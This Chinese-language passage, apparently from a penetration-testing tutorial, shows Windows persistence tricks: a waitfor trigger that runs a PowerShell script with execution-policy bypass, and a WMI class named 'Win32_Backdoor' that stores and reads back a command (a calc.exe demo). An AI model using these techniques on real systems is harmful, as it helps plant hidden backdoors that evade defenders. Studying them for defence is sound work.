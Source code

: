 转义字符&在powershell中要用`&表示

**开启等待模式：**

cmd：

```
waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1 
```

**发送信号：**

cmd：

```
waitfor /s 127.0.0.1 /si persist1 
```

#### 思路2：

不在目标系统保存文件

这里使用一个之前在《WMI backdoor》中介绍过的技巧，将payload保存在WMI类中，进行读取使用

存储payload：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 
```

读取payload：

```
([WmiClass] 'Win32_Backdoor').Properties['Code'].Value 
```

以上操作如下图

![image](../img/301a8233e68e911bbb059b62bd7db292.png)
